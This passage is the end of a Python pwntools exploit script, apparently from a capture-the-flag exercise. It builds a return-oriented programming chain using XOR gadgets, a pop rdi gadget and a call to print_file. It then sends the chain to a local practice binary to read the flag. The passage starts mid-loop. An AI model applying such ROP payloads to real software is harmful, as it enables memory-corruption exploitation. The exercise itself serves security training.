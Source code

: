```python
        payload += p64(datasection + 0x2)
    elif char == 'g':
        payload += p64(datasection + 0x3)
    elif char == '.':
        payload += p64(datasection + 0x4)
    elif char == 'x':
        payload += p64(datasection + 0x6)
    payload += p64(xor_gadget)

payload += p64(pop_rdi_gadget)
payload += p64(datasection)
payload += p64(call_print_file)

print(payload)

##### SEND PAYLOAD AND GET FLAG #####

io = process()
io.sendlineafter('> ', payload)
io.recvuntil('Thank you!\n')
#Get our flag!
flag = io.recv()
success(flag)

##### END #####
```


